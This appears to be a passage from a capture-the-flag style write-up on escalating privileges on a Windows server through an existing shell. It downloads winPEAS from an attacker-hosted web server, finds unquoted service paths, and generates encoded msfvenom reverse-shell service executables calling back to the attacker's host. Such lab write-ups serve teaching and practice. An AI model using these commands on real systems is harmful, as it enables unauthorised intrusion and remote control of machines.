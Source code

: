 ### Exploiting the server with the created shell
With our shell created on the previous section, we will start enumerating the server to find possible vulnerabilities. In this section we will also find ways to escalate privilege to administrator use.

For the enumeration, we will use the tool [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). This .ps1 script enumerates windows systems to find misconfiguration that may lead to privilege escalation. To use this script, we performed the following steps:

1. Create a web server on the attaching machine

```
sudo python3 -m http.server 80
```

2. Upload the script on the target

```
powershell Invoke-WebRequest -Uri http://10.9.1.255:80/winPEASany.exe -Outfile winp.exe
```

Our next step will be enumerate the server and find misconfigurations that can be used for privilege escalation

#### Enumerating server
We then executed the [Winpeas.exe](https://github.com/carlospolop/PEASS-ng/releases/tag/20230924-10138da9) script to enumerate the server. From this scan we got the following result:

- Credentials in plain text (not exploitable)
- Unquoted services
  - *AdvancedSystemCareService9*
  - *AWSLiteAgent
  - *IObitUnSvr*
  - *LiveUpdateSvc*

Our next step will be exploiting those service to obtain a privileged shell.

#### Exploiting missconfiguration
We attempted to exploit the unquoted service if the option *CanRestart* is set to true and if we have write permissions on the directory, where it is located, so we upload our malicious code. This allows us to stop and to restart the service and to add files.

We first created with *msfvenom* an executable, that connects back to our attacking machine:

```
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKING_MACHINE LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
Then we create a web server on the attacking machine:

```
sudo python -m http.server 80
```
